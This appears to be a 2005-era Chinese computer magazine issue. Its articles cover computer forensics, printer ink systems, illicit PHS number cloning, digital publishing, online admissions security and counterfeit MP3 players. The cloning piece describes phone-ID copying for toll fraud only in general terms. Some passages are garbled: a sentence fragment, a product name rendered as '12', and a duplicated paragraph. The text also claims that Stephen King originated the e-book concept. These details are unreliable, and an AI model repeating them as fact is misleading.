时间回溯到2004年3月15日，当因谋杀宿舍四位室友而亡命天涯的公安部A级通缉犯马家爵在海南省三亚市被捕时，谁又会想到，计算机取证技术在这次成功抓捕中起到了多么重要的作用？就在北方各省市纷纷报出马家爵被发现的假消息时，公安机关侦察人员已经通过计算机取证技术将搜查范围锁定在三亚了。当时，随着调查一步步地深入，侦察人员从其他渠道获悉，马家爵有一个特别的爱好——上网。于是，放在马家爵宿舍里的计算机很快地成为了众矢之的。侦察人员发现，这台旧电脑的硬盘竟然已被狡猾的马家爵格式化了三遍之多，尽管这样，取证人员还是运用专业软件将其数据进行了还原。经过对硬盘中存放的海量信息过滤，侦察人员发现马家爵在出逃前三天基本上都在搜集有关海南省的信息，特别是有关三亚的旅游、交通和房地产信息。干警们判断，马家爵很有可能早就开始为自己的逃亡作准备了，而且目的地非常明确——三亚！正是这些线索使干警们在外松内紧的形势下，将警力重点布防在三亚，最终取得了抓捕的成功。

当参与办案的人员向记者回忆时，说：“如果没有数据还原和修复技术，没有海量信息过滤和分析技术，此案的侦破将难以想象。”

## 电脑爱好者

## 业界

信息检索技术，我们侦破马家爵案比大海捞针一样困难。如今，计算机取证技术已慢慢施展出它的绝妙武功，取证人员以快速镜像备份、数据恢复、数据分析几招招式，步步凌厉地将犯罪分子逼上绝路，令其原形毕露。马家爵案的侦破只不过是计算机取证打的又一个漂亮仗而已。

然而，再绝世的剑术，假如没有武功奇才的勤勉修炼，也只能是一本深藏于山洞石壁的旷世秘籍。比起国外20余年的精研和发展，我们自己的计算机取证技术虽有多年的快速跳跃式发展，却凸现出三大制约其向纵深发展的顽症。

### 顽症一 电子证据也能做呈堂证供吗？

尽管取证技术有着强大的威力，可在案件的整个司法过程中，能否将计算机取证得到的电子证据当作呈堂证供，却成为了执法人员和法律专家争相探讨的问题。这里，所谓的电子证据(Electronic Evidence)，就是在计算机及相关设备中反映犯罪者犯罪的信息。它们主要来源于操作系统的日志、局域网内的IDS(网络入侵检测系统)、防火墙、FTP、WWW和反病毒软件日志、系统的审计记录，网络监控流量，E-mail，Windows操作系统和数据库的临时文件或隐藏文件，历史记录或会话日志，实时聊天记录等等。而表现形式也是纷繁多样，综合了文本、图形、图像、动画、音频及视频等多种媒体信息。

从案件侦破角度来讲，取证技术人员认为计算机取证技术只是作为一种调查案件线索的有效手段，对侦破过程有着强有力的支持，但是这样的虚拟化线索却并不适合作为白纸黑字的证据提交法庭。

北京市公安局刑侦总队副总队长左芷津博士向记者讲述了这样一个案例。2004年，公安部等14个部委开展的打击网络色情专项行动中，个别狡猾的犯罪嫌疑人拒不承认自己的犯罪事实，他们在经营色情网站的同时，在自己的电脑中安装后门程序，一旦东窗事发便狡辩说电脑是被别人控制了，而自己却并不知情。遇到这种情况，干警们一方面只能进一步探求技术层面上的突破，另一方面，也只能使用其他的辅助手段，将虚拟的线索转化为犯罪嫌疑人的笔录、证人的口供等其他间接证据。

### 顽症二 “计算机取证”意识你也得有

就目前的案件侦破形势看，不同形态的犯罪活动的侦破过程都或多或少地运用到了计算机取证技术。

2004年5月30日下午5时许，某市刑警大队协查通报，近来在该市出现一伙4到5人组成的抢劫团伙，这个犯罪团伙多次伙同乘坐出租车，在出租车行驶到市内比较偏僻的场所时，暴力殴打出租车司机索要钱财，持刀将出租车司机捆绑，并将司机逼入汽车后备箱中，连人带车抛弃在市郊偏僻处。犯罪手段极其嚣张，严重影响了该市的社会治安秩序。负责侦破该案的干警回忆：“现在越来越多的刑事案件需要计算机取证技术，因为很多调查的突破口就是通过犯罪嫌疑人爱好上网而获得的，从他们的QQ聊天记录、电子邮件，甚至手机短信中，我们可以轻而易举的找到作案证据。另外，通过相关的侦察手段给判断在案发时间嫌疑人是否在犯罪现场提供了极大的便利条件，就像这个案件的侦破便是利用了这套系统。”

犯罪分子的生活方式依赖于计算机，更依赖于网络，这一方面给计算机取证工作带来便利条件，但另一方面对办案人员的要求也成倍地增加了，尤其是一线办案人员的计算机取证意识亟待加强。

自去年底开展的打击通过网络参与境外赌博活动的专项行动中，2004年12月20日晚，某地专项行动组经群众举报，抓捕嫌疑人12人，在场的30多台计算机也被办案人员带回了总部。但是，由于他们仍然沿袭传统的方法，尽管经过多次问讯，嫌疑人却拒不承认其罪行或者避重就轻。眼看着批捕回来的犯罪嫌疑人就要因证据不足而逍遥法外，民警却束手无策。就在这时，侦察人员抵达了专案组，他们立即应用计算机取证技术，很快便通过查找涉案计算机的上网历史记录、恢复了下注统计记录和相关涉案账号（人员ID、银行账号），将此团伙参与境外赌博的过程还原了出来。眼见铁证如山，嫌疑人终于供认不讳。

说到这儿，计算机取证工作看似更是和一线办案民警关系重大，其实不然，企业和个人同样需要增强计算机取证意识，甚至需要掌握一些基本的取证技术。建立了“全国网络警察培训基地”的厦门美亚柏科资讯科技有限公司代表胡力和先生，在大会上展示了“计算机取证”技术这一利器下的种种网络毒瘤，但他也承认在一些案件的侦破中，受到不法侵害的企业或者个人如果有较强的计算机取证意识，很多证据是很容易被找到的。

比如前不久公安部打击的多个假银联、假网上银行等网站，便是通过“网络钓鱼”（Phishing技术）在互联网上非法谋取利益的行为，其实质就是用相似的网络域名、用户熟悉的使用界面等诱惑用户输入自己的银行卡密码。参与打击这些Phishing网站的侦察员透露说，点击了一些电子邮件里的链接是导致用户误访问这些网站的主要原因。这里，我们提醒经常使用网上银行的读者，遇到不法侵害后，绝对不能关机，而应保留屏幕状态，并立即与网监或者110取得联系，为办案人员或者第一手资料做准备。

### 顽症三 “计算机取证”后劲儿不足

北京市公安局刑侦总队副总队长左芷津博士在大会开幕词中强调：计算机取证学是法学、计算机科学和刑事侦查学的交叉学科。计算机取证技术的研究在我国刚刚起步，无论是立法还是技术的研究与发达国家相比还有很大的差距，电子证据取证困难的局面，已经严重阻碍了有关案件的侦破。

马家爵的被捕可以说使“计算机取证”技术成为江湖美谈而令罪犯不敢越雷池的“神针”，但和国外同行相比，我们的取证技术人员又何尝不想手提尖端设备，任何问题都可以借助计算机几秒钟得到分析结果呢？然而，我们的现状是软件和硬件都不同程度地依赖国外，本土研发机构相对分散，研发成果不能及时商业化……这些软肋都致使我们的取证工作后劲儿不足。

ENCASE和12两大计算机取证软件可以称得上是IT江湖里的“倚天剑”和“屠龙刀”了，它们强大的数据恢复和海量数据分析功能，令手握兵刃之人独步武林而鲜有敌手。以12为例，基于数据挖掘技术，它可以在十几秒的时间内分析出指定嫌疑人近期的活动规律、密切联系的人群并由此判断出嫌疑人下一步的动向。在国内某研究机构的负责人处，记者得到了这样一些信息：我们坚持独立自主地研究计算机取证技术，并把它作为一门独立的学科。这主要是基于信息安全的角度考虑，因为从国外引进一款这样的产品，却无法分析它的源代码，这样一来就根本无法获悉它是否存在盗取资料的“后门”了。很难想象如果将以亿计算的海量公民信息放在这样的软件里面，如果发生信息泄漏，对我国的信息安全将会发生怎样的影响？

尽管如此，在软件研发方面，目前仅有包括清华大学、成都电子科技大学和公安部某研究所等几家技术实力较强的科研机构，在完成一些替代产品的研发。硬件设备方面，也只有相关研究机构如中国科学院、清华大学及北京大学相关专家在关注一些取证产品的课题，不过其主要性能和操作性都和国外产品有一些差距。在计算机取证人才培养方面，技术人才的专业素质远没达到取证工作的需要。鉴于这三点，目前的计算机犯罪取证工作多采用与技术实力较强的团体合作的方式。比如国内技术实力较强的“安全焦点”组织就曾为一些案件的侦破提供过有力的帮助。

## 连续供墨真能降低90%的打印成本？

“连续供墨系统”是近些年来打印市场上的流行语。随着人们对数码照片打印需求的不断增加，彩色照片打印机对墨盒的消耗量也相应成倍地增加了。一个多彩原装墨盒动辄三、四百元的天价，让普通消费者要么只能望洋兴叹，眼巴巴地看着自己的数码照片而不能与更多的人分享，要么只能寻求质优价廉的兼容墨盒。“连续供墨系统”的出现似乎让平民看到了家庭照片打印时代的曙光，然而事实真的如此吗？也许记者的暗访能给您提供一个借鉴。

### 价廉有原因

某品牌打印机公司市场部负责人张先生告诉记者，所谓的连续供墨系统实际上是一个极易注墨的外置兼容墨盒，这个墨盒有专用芯片、专用注墨口。“通俗地讲，就是给喷墨打印机的墨盒插上管子，通到放在墨盒旁边的大墨水瓶子里，这样，在喷墨打印机打印的时候，外置墨水瓶里的墨水就会源源不断地进入墨盒，就再也不用购买墨盒了，只需要购买瓶装的墨水就行了。有了这个装置后，打印机只要一套墨盒，以后如果想要添加墨水，只需拧开瓶罐直接注入相对应的颜色就可以了。”

### 价廉物美难

为了探究这90%的成本是如何降低的，记者来到了北京某电子市场。某打印耗材柜台里摆满了各种国内兼容墨盒厂商推出的“连续供墨系统”，从数量上估计，这个柜台的出货量还是非常大的。记者从柜台经理处了解到，每天都会有至少几十套的出货量，而主要买家还是以盈利为目的的商务输出用户，例如印务公司、广告公司等，而个人用户则很少光顾。这位经理特意强调，连续供墨系统每一套才200元不到，打印量却相当于5套400多元的原装墨盒，这样算，可以节省90%的打印成本。不过此时就下结论还为时尚早。

按照某品牌打印机代理商的指点，记者走访了某打印机维修中心。听说记者是询问连续供墨系统，维修工程师李先生显出了疑虑。

### 市场需求如何满足？

如今，打印机厂商不遗余力地向消费者灌输“数码照片打印时代已经到来”，但却不能从控制打印成本等问题上解决消费者的后顾之忧。虽然爱普生在推出EPSON ME系列打印机的时候已经将用户的打印成本考虑在内，但至今也未看到有更多的厂商在这方面走得更远。既然“连续供墨系统”的市场需求巨大，既然原装打印机厂商不愿让用户体验超值消费的感受，此重担就当仁不让地落在了国内兼容耗材企业身上。

据了解，天威等名牌企业在连续供墨系统的研发上面花费了很大力气，源于很多原装打印耗材产品存在国外企业巧妙利用专利排挤竞争者的情况。“如果想进入这一领域，我们的墨盒就必须符合某种特定的规范，否则根本无法与打印机匹配，就更谈不上帮用户节约成本了。”某兼容耗材企业负责人透露。

然而，消费者对打印机外形美观的要求也对这些企业提出了新的挑战。在中关村，记者注意到很多消费者都会在连续供墨系统的柜台边驻足，却总是对那些看似为打印机输液一样的供墨管指指点点。据了解，通过长管道输送墨水，很容易有空气进入产生气泡，看来消费者的担心也不无道理。

（新闻采访部实习记者 张健）

## 小灵通地下烧号暗藏几多陷阱

近日，有读者打电话向本刊记者咨询，北京市一些小灵通代售点打出了“小灵通上号，附送300元话费”、“小灵通包月号”等广告，很多用户对这些服务很有兴趣，但又担心上当，不知道这样的小灵通能不能买。因此，我们对北京地区小灵通销售比较集中的公主坟、西直门、中关村等地区进行了调查，发现其中暗藏许多问题。

### 小灵通地下烧号别有玄机

在西直门南小街的通讯器材市场短短五十米左右的街道两旁，密密麻麻地挤满了小店铺，几乎每一家店铺门口都有“小灵通上号，送300元话费”、“小灵通解锁上号”等招牌。

记者随意走进一家店子。看到有人进来，店主马上过来搭讪。记者表示自己有一部外地小灵通，想选个号码入本地网，不知道能不能办？对方一听，并不立即回答，而是上下打量记者，然后反问：“机器带了吗？能不能办，要看是哪儿的小灵通和具体型号。”记者指着柜台里一款小灵通说，“就是这种机器，石家庄的。不知道能不能用，就没随身带着，今天先过来问问。”对方小心翼翼地问：“在北京上学？”在得到记者肯定的答复后，店主这才“吐口”说道：“下次你带着小灵通来，5分钟就给你‘烧’个新号。”当问及“烧号”费用时，店主回答，“120元起价，还赠送300元话费。”店主还向记者推荐更为“划算”的北京网通早已停办的包月号：“你上这个号，以后买17908卡打长途电话，相当于一毛二一分钟”。

在记者走访的几家店里，情况大同小异。烧号服务的报价从120元到150元不等。据店主解释，现在可烧的号码越来越少，而且风险也比较大，所以没有让利可谈。其中一个店主向记者表示，虽然价格不能优惠，但是质量绝对可以放心，从他的柜台烧号肯定都是空白区段的，保证能正常使用。如果过几天有重号或被网通公司停号，可进行多次烧号，直至得到一个不重复的号码为止。

几经努力，记者找到了一位知情者，一家从事小灵通代理店铺的老板李先生。李先生向记者详细介绍了小灵通烧号的来龙去脉。

“技术其实很简单。”李先生向记者介绍，“他们是从广东一带弄来一种叫‘数据线写码器’的东西。烧号操作时只需要把小灵通拆开，通过数据线接入电脑，通过专门的软件，只用几分钟的时间就能把原号烧成新号码。”据介绍，一台数据线写码器在南方几百块钱就能买到，烧几个号就能收回购买写码器的成本。另外，据说一些知名网站就在公开叫卖小灵通“烧号机”。记者上网看到，这些网站的网页上果然有“全能小灵通解码器”出售，每套售价从250元至500元不等，能够轻松“写号、解码、写号、改频”，还能兼容数十款小灵通机型。此外，通过一种专门的软件还可以轻松地完成PSID（类似手机的身份证）的复制，一个号码可以在几个小灵通上使用，复制后的号码可以盗打原机主的电话，对于一些包月号用户来说，多产生的费用将由运营商买单，而与原机主无关。这就是所谓的“盗号”。李先生还介绍：为了安全和少惹麻烦，他们烧制的号码主要是以前推出的小灵通包月号码和未投入使用的号段。而且，对前来询问的顾客，一般不直接回答“能”或者“不能”，而先说要看看小灵通的型号，这只是店主演示顾客是不是真要“烧号”。

记者还注意到有些小灵通代理点在出售所谓的日韩进口的彩屏、带摄像头的小灵通，店主承诺可以改版烧号使用，当记者向李先生求证此事，他表示：“那些都是骗人的，根本就不能使用。”

据介绍，从小灵通进入北京市场，“烧号”、“盗号”的行为就没有间断过。由于大批“盗号”瞄准北京网通因促销推出的大批包月小灵通号，即使被盗号，小灵通合法用户也浑然不觉，更加重了“盗号”的猖獗。记者在了解到这些情况后，以普通消费者的身份致电“10060”北京网通小灵通业务咨询电话，询问了关于小灵通“烧号”的有关情况。工号3204的工作人员告诉记者，包月的小灵通号早在去年的5月18日停止办理，网通公司现在没有推出新的类似的优惠活动，市面上销售的包月小灵通号，与网通公司无关。同时，网通公司也没有授权任何代理点开展带机入网上号的业务，用户如需上号，必须携带小灵通到北京网通的营业厅办理。随后，记者采访了北京市网通相关人员。据介绍，小灵通地下烧号现象，在北京存在了一段时间，这种现象，给普通消费者、电信运营商都带来了很大的危害。现在这些地下烧号的行为，都是个别商家的不法牟利手段，这些地下烧号店提供的号码虽然短期内可能有效，因为这些号码多数是利用网通公司的一些空白号段号码，而所谓赠送的300元话费，其实是借用网通的正常促销活动时激活号码附送的，其实是毫无保证的，因为那些未激活的空白号段随时都有被网通发觉并查封的危险，目前网通公司已经开始着手打击这类盗用空白号段的行为。盗号现象也是非常严重的一个问题。据了解，现在不少烧号店会推荐用户烧成小灵通包月用户的号码，因为是包月，所以被盗打的用户从费用上不会增加太多而被发觉。更为严重的是，盗号往往导致一号多机，容易造成错接、错听电话，甚至导致泄露国家或商业秘密。现在网通公司也已经发现了类似的号码现象，对于那些同一号码在同一时间或很短的时间间隔出现在不同的区域的小灵通，网通部门通过网络监测到后，会将非机主的号码删除。对电信运营商来说，地下烧号也造成了巨大的损失。小灵通烧号原本只能在网通的有关部门才能进行，这样做也是为了保证小灵通的机一号的唯一性和合法性。小灵通上号的收入本应属于网通公司的营运收入，现被地下烧号店主所非法占有。此外，包月号码被大量复制和盗用，也大大增加了电信部门的运营成本，而收入却并没有增加。这位人员介绍，如果是机主随意“烧号”，一号多用，显然是违反了小灵通的入网协议，属于非法行为。同时，按照国家信息产业部的有关规定，小灵通目前仅属无线市话业务，不允许出现外地小灵通在北京“烧号”入网等“变相漫游”，可这些问题都由于地下烧号现象的存在而难以控制。此外，小灵通地下烧号的存在，还会带来用户恶意欠费、循环入网和被盗小灵通、“水货”入市等新问题。但是由于据点分散、又没有相关法规和处罚办法，电信部门一时也很难有解决办法。

### 机卡分离有望终结地下烧号

“目前我们只能呼吁市民到正规电信营业厅购买小灵通，不要光顾无证小店。如发现‘烧号’、‘盗号’等不法现象，及时向电信、工商部门举报。但对于小灵通器材市场的监管，我们无能为力。”这位工作人员说。“根治‘烧号’、‘盗号’现象的最终解决办法是机卡分离。”有专家指出，小灵通之所以频频串号，还是缘于“机卡一体”的设置，小灵通目前的机卡合一，让不法商家钻了空子，随着机卡分离小灵通的上市，利用“烧号”盗打电话的情况将逐渐消失。2005年5月17日是世界电信日，中国电信和中国网通正式在全国各分公司推出了机卡分离的小灵通，各小灵通厂商也纷纷支持。简单地说，小灵通机卡分离技术就是在现有小灵通手机的技术基础上，对手机内部的软件平台、协议站全面升级，并加入一个智能卡的插槽，插入一张数据加密智能卡——PIM卡，从而改变目前小灵通机号一体的形式，可以实现和现有GSM和CDMA用户一样的自由换机换号等便利。机卡分离是使用智能卡存储保密数据和个人信息，保密性高，安全性强。智能卡在GSM/CDMA领域的成熟和安全应用，充分证明了PIM卡是目前最先进、最安全和最适合小灵通的存储介质，小灵通用户的个人信息和相关资料将全部存储在这张应用最先进的数据存储和加密技术的智能卡上，大大提升了小灵通的安全性，基本上杜绝了盗号的可能。不过值得注意的是，一向被认为安全的机卡分离能否真正保证安全还有待市场的检验。现在一些地方市场上已经出现了一种SIM卡读写卡器，会不会出现PIM读写卡器，机卡分离的小灵通是否真正安全，仍值得继续关注。最后，我们提醒消费者，不要被那些诱人的优惠资费吸引和天花乱坠的说辞打动，指望从非正规渠道上获得小便宜，往往会吃大亏。正规渠道的品质，才更有保障。（新闻采访部实习记者 刘修兵）

## 数字出版 圆你一个出书梦

稍微上了年纪的人都知道，作家出书总会费些周折。现在不同了，只要你喜欢，坐在家里你就可以通过网络把自己写的内容提交给出版商，等着个性化印刷的出版物面世了。少则几百本，多则数万本，你既可以选择用纸张印刷，也可以选择电子出版物的形式，这一切向你表明：数字出版将圆你一个出书梦。

2005年7月8日至10日，首届中国数字出版博览会在北京举办。在博览会展会上，十多位出版及网络业的专家、学者共同探讨了数字出版的发展模式、未来趋势、有关标准和数字版权等方面的问题。而在展会现场，一款名为电子纸阅读器的新产品吸引了许多年轻人的目光，被公认为将会引发阅读“革命”。荷兰飞利浦研究院首席科学家周国富博士介绍说，目前的电子书虽然已有多年的研发和应用，但因耗电问题以及容易引起眼睛疲劳等因素，还赶不上传统书籍的阅读效果。这也大大影响了电子书的普及。而电子纸技术与现有的液晶技术不一样。电子纸没有目前显示设备无法避免的强烈反光，画面分辨率高，显示效果与视觉感观与一般书写纸几乎完全相同。特别是电子纸技术具有画面记忆特性，一旦画面显示后即不再耗电，这对于便携式电子阅读器来说也是非常重要的优势。在材料工艺上，电子纸甚至可以做到与纸一般可折叠弯曲。周国富表示，目前，电子纸技术正在从黑白走向彩色，实现可弯曲化，并使电子纸具备交互性。未来我们不仅可以看到随身携带的电子报纸，可折叠的电子书、电子速记本都将出现在我们的身边。

### 认识数字出版从电子书谈起

广义上说，只要是用二进制这种技术手段对出版的任何环节进行的操作，都是数字出版的一部分。它包括：

- 原创作品的数字化
- 编辑加工的数字化
- 印刷复制的数字化
- 发行销售的数字化
- 阅读消费的数字化

也就是说，数字出版时代，你可以在家里用电脑创作，然后通过电子邮件交给出版社编辑，编辑完成终审后直接将出版物的电子文档传递给印刷厂，甚至不用一家真正的印刷厂，印刷厂可以是一个专门制作电子出版物的单位，制作好的出版物经过网络直接分发，读者通过手机、电脑、PDA等终端设备可以尽情地欣赏你的大作。正因为数字出版打破了传统出版行业的“死规矩”，它一出现就得到了世界各国人民的广泛支持。我们比较常见的电子书、电脑游戏等都属于数字出版物的范畴。由于数字出版行业兴起不到5年的时间，电子书的概念也只是在2000年4月，由一位名叫斯蒂芬·金的人提出的。但它的快速发展一方面得益于微软、美国时代华纳等大财团的支持，另一方面更是得益于当今这个信息爆炸、个性张扬的时代里，人在阅读效率和个性化方面的需要。解读电子书从撰写到最终分发的过程，我们似乎可以看到，数字出版并不是“数字+出版”那种简单的出版模式，而它更侧重于如何将信息以人们习惯的阅读方式传递出去。依托于电脑和网络，电子书大有取代传统书籍的趋势。2003年纸质图书出版66.7亿册，2004年64.4亿册，增长了-3.45%。2003年全国电子书销量310万册，2004年全国销量805万册，增长了260%。

### 电子纸拉动数字出版

2005年7月8日至10日，首届中国数字出版博览会在北京举办。在博览会展会上，十多位出版及网络业的专家、学者共同探讨了数字出版的发展模式、未来趋势、有关标准和数字版权等方面的问题。而在展会现场，一款名为电子纸阅读器的新产品吸引了许多年轻人的目光，被公认为将会引发阅读“革命”。（新闻采访部记者 张健）

### 绊脚石仍在 数字出版未来啥样？

专家指出，从国际范围来看，数字出版近年来的发展速度明显低于预期，对行业冲击力不够。而国内出版业“数字化”程度更是远远不够。新闻出版总署音像电子和网络管理司副司长寇晓伟说，传统出版业面临的危机，一是日益扩大化的“数字鸿沟”，二是对数字出版的控制力。目前四大电子图书出版商方正、超星、书生、中文在线，占据了全国90%以上的电子书出版份额，而传统出版商大多只是电子书的内容提供者。相比之下，从新浪、搜狐到TOM、腾讯，其资产共约613亿元人民币。而按照中国印刷集团总裁沈海洋的理解，数字出版的一种前景将是“个人按需印刷”。未来数字出版的形态将是多样性的，沈海洋说，电脑下载阅读、电子书阅读器、个人按需印刷都将是数字出版最前端的应用。（新闻采访部记者 张健）

## 网上录取 以安全的名义

2005年高考录取工作正在进行中。在经历了6年的试运行后，今年的录取工作将采用基于互联网的网上录取系统。人们开始担心，在中国高考制度第29个年头里，网上录取是否能经得住考验，顺利地度过而立之年？对此，记者展开了全方位的调查，重点指向网上录取工作的安全问题。

## 用制度确保流程安全

“开始网上录取后，彻底把我们从每年录取时的车马劳顿中解放出来了！”在大学招生办工作10多年的陈老师告诉记者。按照传统的录取方式，各高校招办都要从学校的其他部门临时“抽壮丁”，派出大量教师到外地一起完成学校的招生录取工作，陈老师几乎每年都换一个地方。“千万不要以为可以借机在当地旅游，一天的招生工作完成后，累得不想做别的，只想睡觉。”

实行网上录取以后，陈老师和他的同事通过手中鼠标和各省市招办取得联系，招生工作变得便捷、快速。而高校的招生任务在学校的计算机中心通过网络就可完成，足不出户便可网罗天下英才，为学校节约了大量的人力、物力、财力。如此高效便捷的录取方式，究竟是怎样的流程？各个环节将如何保证数百万考生的顺利录取呢？不妨看看这张流程图。在这个过程中，比较关键的步骤有五步：

登录。高校招办老师登录网上录取系统，屏幕上显示出一张中国地图。选择录取省份，输入指定的IP地址、用户名以及密码后，登录成功。这时，系统的防火墙开始自动对登录人员身份进行认证，并对登录人员查看的内容加密。

核对。招办老师在下载考生信息前，首先核对省招办投过来的考生档案数，看是否与投档比例和招生计划数相符。核对准确无误后，开始从网上下载考生信息。招办老师打开投档过来的考生信息，此时考生的志愿表、体检表、报名信息表、照片、高考成绩等全部可以查阅。招办下载信息时，按照从高分到低分顺序将考生信息排序。相信电脑，它是铁面无私的，决不会把一名低分考生调到前面去。

阅档。招办老师主要阅读的是考生高考成绩、志愿表以及体检表，从中录取符合条件的考生。高校将从高分到低分择优录取，如果考生总分相同，则需设置附加比较条件。

退档。大多数被退档考生是“总分低，录取额满”缘故。其他退档理由还有：小分偏低、外语语种受限、外语口试不合格、体检不合格等。需要说明的是，各个学校退档理由一定要写明，不然电脑将无法接受退档。

录取。进行网上录取，两至三分钟即可录取一名学生。考生一旦被录取，将及时在该生所在地的省招办网站上公布。同时，考生登录报考学校的招办网站上查询，只要输入自己的准考证和身份证号，即可查到自己是否已被录取。各大学录取通知书全部采取特快专递的方式寄送。记者了解到，北京大学、北京化工大学、北京交通大学的录取通知书全部免费发放到考生手中。

各院校的招生计划完成后，可向省招办提出录取结束的申请，经省招办审核通过后自动退出录取系统。高校招生办将录取考生名单上报经生源地所在省（市、区）招生办核准，加盖省级招办录取专用章，以此作为考生被正式录取的依据。

说到这里，我们也只是了解了网上录取的过程，但是稍懂技术的朋友就会发现，这样的流程当中有可能存在不少安全漏洞。前不久发生的黑客入侵导致万事达公司的信用卡泄密事件从另一个侧面揭示了网络安全危机。那么，比起安全防范相当严密的信用卡管理系统，网上录取系统又是如何利用技术手段保证录取顺利进行的呢？

## 用技术预防黑客攻击

黑客无处不在，他们总会利用系统的漏洞发动攻击。

前不久，湖北的教育网站连续受到黑客攻击，网警紧急出动，经过分析后，将嫌疑人锁定在一位21岁的某高校计算机系大三学生身上。当时，由于防范严密，系统虽未遭到彻底破坏，却也使该省近30万考生无法及时查询高考成绩。

2002年网上录取期间，浙江省招生网站发生过数名黑客使用扫描工具对网上录取网站的端口进行扫描，试图通过端口的破绽进入网络进行破坏。但该省招生办使用了一套严密的登陆和身份认证程序。在这个程序中，无论是工作人员进行正常的网上录取，还是黑客要闯入核心数据库进行数据更改，都必须通过身份认证、公共服务区引导、信息还原、数据交换等数道严格的登陆和认证程序之后才可以实现。

那次攻击发生之后，网上录取的安全技术人员和有关部门连夜会诊。在加强招生网的安全设置的同时，大力追捕对招生网进行恶意扫描攻击的黑客，经过对黑客留下的攻击记录的技术分析和跟踪，并对黑客进攻留下的IP地址开展网上追踪，一举将分布在杭州、温州等地的5名黑客一网打尽。

魔高一尺，道高一丈。在防黑客入侵上，相关部门早早开始就对各个环节做了严密而细致的布置，确保录取过程不发生意外。根据这几年来的经验，可以这么说，网上录取从局部地区推广到全国的历史，也是一部与黑客做斗争的历史。根据网上录取实施几年来的经验，从技术角度，防范工作主要集中在以下几个方面：

关端口。网络通讯端口是用户连接至主机端取得服务的通道，黑客也利用同样的途径来入侵。主机上开放的通讯端口越多，就存在被攻击的可能。因此，减少系统上开放的通讯端口数目是网络安全最有效的防范措施之一，除了必要的提供服务的端口，其他端口应予以关闭。

反病毒。防范病毒是实现网上录取网络安全的另一项重要工作。让网络免受病毒攻击最保险和最有效的方法是对网络中的每一台计算机安装防病毒软件，并定期对软件中的病毒库进行更新。禁止使用那些带有明显漏洞，使病毒容易传播的应用软件也是一种非常明智的做法。

勤扫描。经常进行安全扫描，对可能存在的漏洞进行检查，扫描目标可以是工作站、服务器、交换机和数据库应用等，通过扫描，可以为系统管理员提供周密可靠的安全性分析报告，从而提高网络安全整体水平。

防入侵。网络入侵检测系统分为网络数据包分析和主机检测两种方式。网络数据包分析在网络通信中寻找符合网络入侵模板的数据包，并立即做出反应。安全系统还可以利用交换式网络中的端口映射功能来监视特定端口的网络入侵行为，一旦攻击被检测到，响应模块对攻击做出反应，比如发送电子邮件、寻呼、记录日志和切断网络连接等，这样可以在入侵事件发生后提供足够的分析来阻止进一步的攻击。

浙江的那5名黑客后来在交代自己的动机时，说是出于“好奇”或者是“无意间遇到”。倘若有技术更高超的并且破坏性更强的黑客攻击，我们该如何面对？在技术上的严密防范并不能让我们高枕无忧，凡事“不怕一万，就怕万一”，如果录取网站被“攻陷”，难道我们就只能坐以待毙吗？

## 买MP3 慎防李鬼拦路

刚到电梯门口，小丽一眼就瞧见了另一个部门的同事贝贝脖子上挂着的那款MP3，高贵的红色，小巧而美丽。
“哇，贝贝，你新买的MP3啊？真漂亮！”
贝贝笑意盈盈：“是吗？谢谢！是我男朋友昨天给我买的。”
“是三星的吧？我在电脑城看见这一款了，很动心耶，可是太贵了，我舍不得买。你男朋友对你真好，给你买这么贵的MP3。”
电梯来了，小丽和贝贝一边走进去一边笑着说。
“是啊，他说花了1000多块钱呢！”
小丽忍不住对这款MP3的喜爱，上前拿起来细细看了看。
“哟，你这MP3怎么没有‘yepp’呢？”
“什么‘yepp’啊？”
“就是三星MP3的标志啊！我当时在电脑城看见过的。”
贝贝有点迷糊了，也仔细看着她的MP3。
小丽又看了看反面，发现也没有“samsung”的字样。
这时，电梯门开了，小丽放开贝贝的MP3，进了办公室，心里还在嘀咕“怎么外型一模一样呢？”
“大笨蛋！那是她男朋友骗她的！”小丽豁然开朗，她想起来刚才出电梯时贝贝的脸色有点阴。
故事中，贝贝的MP3让小丽迷惑了。现实中，市场上众多外型极为相似的MP3也让我们这些消费者迷惑了眼睛。比如一些知名品牌的厂商推出一款新的MP3，市场上马上就会出现许多外型相仿的MP3来，乍一看，几乎没有什么分别，而且价格便宜很多。这不，记者亲自去海龙电脑城转了转，就发现了不少仿名牌的MP3。

## 仿MP3的诱惑力

在海龙电脑城二层的好几个柜台，记者发现两种牌子的MP3仿造了三星的YP-F1H，除颜色不同外，外形几乎一模一样。一个柜台的销售人员党先生告诉记者，这款标有“CDT s310”的MP3是深圳某公司推出的产品，而标有“sansui”的则是山水的产品。
更有一些MP3不仅外型、颜色都仿造名牌的MP3，而且未在产品表面显示任何名称，具有非常大的迷惑性，如果不仔细看的话，还以为就是那款名品的MP3呢！比如有一款MP3，外型、颜色仿海信的MF-360，机身却没有任何产品名称的标记，只有看包装盒才知道是一款名叫“新干线”的产品。
外型相仿，那么功能、价格与名牌MP3是否也没区别呢？“三星YP-F1H有的功能这些也全都有。”“山水和世纪东唐的MP3，256M也就卖不到500块钱，而128M的三星YP-F1V就要1000出头，你看这贵多少啊？翻倍！”
据悉，所有仿造的MP3都要比被仿的名牌MP3要便宜近两倍。当记者问起仿造的MP3销售的情况如何时，党先生说：“便宜，买的人多，销的也还不错。我今天上午就出手了5个。”

## 仿MP3的真面目

仿造的MP3不仅和名牌MP3长得一模一样，功能也全齐，但价格却相差颇多。这不禁令人怀疑，仿造的MP3真的能保证质量吗？事实并非如此。在海龙卖了两年MP3的刘先生说：“仿造的MP3虽然酷似品牌的MP3，但是内行的人总能发现区别，比如机身做工粗糙，材质低劣，包装也很简陋，另外配件比如耳机也很差，听的音质差等。如果拆卸外壳，里面更是粗制滥造。这样的仿冒品买回去，过不了多长时间就会出毛病，只是一般的消费者都不知道。”
另外，质量好不好，返修率的高低最能说明问题。据了解，仿造的MP3返修率比正品的名牌MP3要高出4、5倍。消费者使用不久后就会发现这些问题：开不了机，频繁死机，系统不认，接收不良，电池问题或机器磨损等，令消费者头痛不已。
仿造的MP3与所有低价MP3还有一个共同特点，那就是售后服务差。正品的品牌MP3一般会设立专门的售后服务点，而包括仿MP3在内的所有低价MP3的售后服务体系都是，经销商点即售后服务点。显然经销商会代理多个品牌的产品，有可能今天代理这家的过一段时间就代理另外一家的，所以有些消费者为产品问题找了经销商许多次，最后，经销商竟以不再代理该产品为由拒绝为之服务。总之由经销点来兼理售后服务并不能保证良好的售后服务。

## 仿MP3的低价之谜

较于品牌MP3居高不下的价格，仿MP3的低价真让人心动。仿MP3为何能这般低价呢？业内人士的分析终于揭开了仿MP3的低价之谜：
